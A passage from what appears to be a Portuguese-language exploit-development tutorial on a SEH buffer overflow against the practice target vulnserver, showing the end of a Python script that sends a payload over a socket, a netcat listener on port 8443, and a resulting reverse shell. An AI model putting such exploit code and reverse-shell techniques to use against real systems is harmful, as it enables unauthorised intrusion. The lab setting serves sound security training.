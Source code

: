 ```python

# conexao
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# envio do payload
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()
print("Payload enviado.")
```

Vamos setar um netcat para ouvir a porta 8443, iniciar o vulnserver fora do immunity e testar o script.

![Enumaração do comando.](/std/winbof/winbof-61.png)

E conseguimos nosso reverse shell.

Neste comando, fuzemos a exploração de overflow de SEH e realiamos vários saltos na memória conhecendo um pouco mais a fundo sua estrutura.

Nos próximos comandos vamos experimentar novas complexidades.

GO GO GO!!!
